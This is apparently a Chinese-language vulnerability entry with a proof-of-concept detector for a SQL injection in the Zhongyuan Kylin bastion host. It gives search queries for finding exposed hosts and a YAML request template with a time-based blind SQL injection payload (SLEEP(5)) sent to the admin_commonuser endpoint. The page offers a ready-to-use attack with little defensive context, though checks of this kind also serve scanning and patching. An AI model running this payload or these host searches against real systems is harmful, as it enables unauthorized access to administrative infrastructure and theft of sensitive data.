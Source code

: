 ## 中远麒麟堡垒机SQL注入
麒麟堡垒机用于运维管理的认证、授权、审计等监控管理。中远麒麟堡垒机存在SQL注入，可利用该漏洞获取系统敏感信息。
检索条件:
cert="Baolei"||title="麒麟堡垒机"||body="admin.php?controller=admin_index&action=get_user_login_fristauth"||body="admin.php?controller=admin_index&action=login"

```
poc:
  relative: req0 && req1
  session: false
  requests:
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      Content-Type: application/x-www-form-urlencoded
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
    data: username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
    follow_redirects: true
    matches: (code.eq("200") && time.gt("5") && time.lt("10"))
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
      Content-Type: application/x-www-form-urlencoded
    data: username=admin
    follow_redirects: true
    matches: time.lt("5")

```
检索条件：
cert="Baolei" 或 title="麒麟堡垒机" 或 body="admin.php?controller=admin_index&action=get_user_login_fristauth" 或 body="admin.php?controller=admin_index&action=login"

